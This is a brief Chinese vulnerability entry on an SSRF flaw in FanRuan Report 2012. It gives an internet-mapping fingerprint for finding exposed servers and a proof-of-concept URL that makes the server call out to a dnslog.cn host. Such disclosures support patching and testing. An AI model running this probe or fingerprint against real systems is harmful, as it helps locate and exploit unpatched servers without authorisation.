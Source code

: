 # 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

```
帆软报表 2012
```

## 网络测绘

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

漏洞验证Url为

```plain
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![image-20220209113126929](images/202202091131035.png)

